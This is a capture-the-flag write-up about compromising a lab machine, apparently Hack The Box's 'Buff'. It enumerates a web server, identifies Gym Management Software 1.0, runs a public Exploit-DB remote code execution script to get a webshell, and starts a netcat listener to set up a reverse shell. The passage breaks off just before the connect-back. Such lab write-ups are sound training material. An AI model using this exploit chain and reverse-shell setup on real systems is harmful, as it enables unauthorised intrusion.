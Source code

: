 ```bash
GET http://10.10.10.198:8080/Include [301 Moved Permanently] http://10.10.10.198:8080/Include/
GET http://10.10.10.198:8080/Boot [301 Moved Permanently] http://10.10.10.198:8080/Boot/
GET http://10.10.10.198:8080/server-status [403 Forbidden]
GET http://10.10.10.198:8080/Ex [301 Moved Permanently] http://10.10.10.198:8080/Ex/
```
There is a PHP-based upload form at /admin. I spent a while exploring this, however did not find any way to gain a foothold using it. Just doing some clicking through of the website, the about page reads:
```

    mrb3n's Bro Hut
    Made using Gym Management Software 1.0 

```
I orginally thought this was made up, but when searching for it, it turns out to be a real thing. There is also a known RCE exploit. This was a good lesson not to discount something just because it sounds dumb and made up.

### 3. Get a shell
I download the exploit from https://www.exploit-db.com/exploits/48506, and suprisingly it just works (first time, that doesn't happen often with me) and I get a CMD shell.
```bash
kali@kali:~/Desktop/htb/buff$ python gym_rce.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                            
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun

C:\xampp\htdocs\gym\upload> type C:\Users\shaun\Desktop\user.txt
```
Ideally I'd like to get access to something less restrictive than this web shell, although it is a pretty nice one. A dir command reveals nc.exe is in the uploads directory already. There is also 64 bit netcat and plink.exe.
```bash
C:\xampp\htdocs\gym\upload> dir
�PNG
▒
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

22/07/2020  07:23    <DIR>          .
22/07/2020  07:23    <DIR>          ..
22/07/2020  07:21                53 kamehameha.php
22/07/2020  07:20            38,616 nc.exe
22/07/2020  07:23            45,272 nc64.exe
22/07/2020  07:20           598,440 plink.exe
               4 File(s)        682,381 bytes
               2 Dir(s)   8,045,072,384 bytes free
```
Firstly start my listener:
```bash
kali@kali:~/Desktop$ nc -lvp 9999
Listening on 0.0.0.0 9999
```
Then execute nc through the webshell to connect back.